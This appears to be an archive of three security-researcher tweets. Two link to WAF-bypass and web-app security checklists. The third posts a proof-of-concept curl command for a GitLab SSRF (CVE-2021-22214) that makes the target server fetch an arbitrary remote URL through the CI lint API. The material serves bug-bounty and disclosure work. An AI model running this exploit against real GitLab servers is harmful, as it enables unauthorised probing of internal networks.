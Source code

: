 
# theXSSrat
**https://twitter.com/theXSSrat/status/1408493289842618371 _at 2021-06-25 18:32:23_**
<blockquote>
WAF bypass checklist as well: 

https://t.co/ffsLlvZlFz
</blockquote>

* https://github.com/The-XSS-Rat/SecurityTesting/blob/master/Checklists/WAF-bypass-checklist.md

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# theXSSrat
**https://twitter.com/theXSSrat/status/1408489163578654721 _at 2021-06-25 18:15:59_**
<blockquote>
Now also on my github :D &lt;3 
https://t.co/2Dmfrh6fUN
</blockquote>

* https://github.com/The-XSS-Rat/SecurityTesting/blob/master/Checklists/webAppSec.md

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>166</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1408218852245135362 _at 2021-06-25 00:21:52_**
<blockquote>
BOOM🔥🔥 Gitlab SSRF (CVE-2021-22214).

POC:
curl -s --show-error -H 'Content-Type: application/json' --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://x.x.x.x/api/v1/targets?test.yml"}' https://REDACTED/api/v4/ci/lint -k

#SSRF #Gitlab #bugbountytips https://t.co/07NnNq6in0
</blockquote>

